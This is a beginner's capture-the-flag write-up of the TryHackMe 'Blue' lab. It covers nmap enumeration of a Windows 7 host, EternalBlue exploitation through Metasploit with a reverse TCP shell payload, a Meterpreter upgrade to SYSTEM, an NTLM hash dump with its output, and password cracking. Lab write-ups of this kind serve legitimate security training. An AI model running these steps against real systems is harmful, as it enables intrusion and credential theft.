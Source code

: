 
# **Introduction**

This writeup covers the TryHackMe room [Blue](https://tryhackme.com/room/blue), which focuses on exploiting a critical vulnerability known as **MS17-010 (EternalBlue)** in a Windows 7 machine. The room is designed for beginners to learn how the EternalBlue exploit works, how to identify it using Nmap, and how to leverage Metasploit to gain access.

# Recon :

the machine does not respond to ping (ICMP) so we will use the `-Pn` flag to disable Ping
````bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:24 EDT
Nmap scan report for 10.10.242.215
Host is up (0.60s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 62.72 seconds

````

now let s do a more profond scan 
````bash 
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn -sV -sC -p 135,139,445,3389,49152,49153,49154,49158,49159 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:31 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:36 remaining)
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:38 remaining)
Nmap scan report for 10.10.242.215
Host is up (0.74s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2025-07-14T14:32:27+00:00; +3s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-14T14:32:12+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-13T14:10:31
|_Not valid after:  2026-01-12T14:10:31
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-14T09:32:12-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-14T14:32:12
|_  start_date: 2025-07-14T14:10:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:16:4f:66:bb:25 (unknown)
|_clock-skew: mean: 1h00m02s, deviation: 2h14m10s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.77 seconds

````

This Nmap scan provides **a lot of useful intel** so let s break it down :
- **Host OS:** Windows 7 Professional SP1
- **Hostname:** Jon-PC
- **Workgroup:** WORKGROUP
- **RDP (3389):** Enabled
- **SMB (139/445):** Open with dangerous settings (signing disabled) 
- **Multiple RPC ports** open (135 + 4915x range)
- **No ping (ICMP) required `-Pn` used**

#### Most important info :
```
smb-security-mode: message_signing: disabled (dangerous, but default)
````

after a quick internet search i found that  it  allows **Man-in-the-Middle (MitM)** attacks and **pass-the-hash**.
- **Exploit possibilities:**
    - EternalBlue (MS17-010)
    - SMB Relay attacks
    - Null session enumeration
we will go with EternalBlue since it s this room is made for it


# Gain Access :

Let's launch Metasploit and look for eternal blue 
![screenshot](imgs/Pasted image 20250714154943.png)
we will choose the first one now let s ceck what options do we need to provide so we ccan run the exploit 
![screenshot](imgs/Pasted image 20250714155342.png)
the only required option is `RHOSTS` which should be the one provided with your machine and i ll have to change the `LHOST` which was an ip address that i got from a different room
you can change them by typing :

```bash
set RHOSTS <machine ip address>
set LHOST <your ip address>
```

when it comes to the payload the one that is in the image should work fine if you have a different one just type : 

````bash 
set payload windows/x64/shell/reverse_tcp
````

now everything is set let s run the exploit you can simpy do that buy typing 
`run` or `exploit` .
if everything worked fine you should get the meterpreter which looks like this 
![screenshot](imgs/Pasted image 20250714160401.png)
now  we ll try to escalate privileges .

# Escalation :

Let s start by backgrounding this session ( press CTRL+Z ) and try to upgrade our session. 
When you exploit a system, you might get a **basic shell** — but it’s very limited. Upgrading it to a **Meterpreter session** gives you **powerful post-exploitation features**. 
you can do this in an easy way  just background your session as we said then type :
```bash 
sessions -u < ur session number >
```
which will create a upgraded session after  that type 
```bash
*> sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.11.142.91:4444 -> 10.10.242.215:49237 (10.10.242.215)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.11.142.91:4433 -> 10.10.242.215:49250 (10.10.242.215)

```
to switch to the meterpreter session type `sessions -i 2` and VOILA you have a meterpreter 
you can do lots of stuff  like showing the systems info and seeing the running processes.
you can check [Metasploit cheat sheet](https://github.com/r4y-br/Cybersecurity-101/blob/main/Metasploit.md) to try learn the commands tthat you can run on the meterpreter .
![screenshot](imgs/Pasted image 20250714162621.png)

# Crack :
the room asks us to crack  the non default user's password  we can dump the hashes  by running :

````bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

````

now we will need to crack the passwords hash we  can either use john the ripper or use   [crackstation](https://crackstation.net/) which is more convinient .
![screenshot](imgs/Pasted image 20250714163700.png)

# Finding the flags :

 Just use the meterpreter for your advantage and make it do the hard work  for u :
 ```bash
meterpreter > search -f *flag*
Found 6 results...
==================

Path                                                             Size (bytes)  Modified (UTC)
----                                                             ------------  --------------
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk  482           2019-03-17 15:26:42 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk  848           2019-03-17 15:30:04 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk  2344          2019-03-17 15:32:52 -0400
c:\Users\Jon\Documents\flag3.txt                                 37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt                             34            2019-03-17 15:32:48 -0400
c:\flag1.txt                                                     24            2019-03-17 15:27:21 -0400


``` 


#  **Conclusion**
> 
> The _Blue_ room provided a great introduction to identifying and exploiting SMB vulnerabilities, specifically the infamous **MS17-010 (EternalBlue)** flaw affecting Windows 7. Through careful enumeration and the use of Metasploit, I was able to gain a reverse shell and access the target system.
> 
> This challenge highlights the importance of keeping systems up to date and demonstrates how a single unpatched vulnerability can lead to full system compromise. Overall, _Blue_ was a valuable learning experience that reinforced core penetration testing techniques such as service enumeration, vulnerability identification, and exploitation using Metasploit.

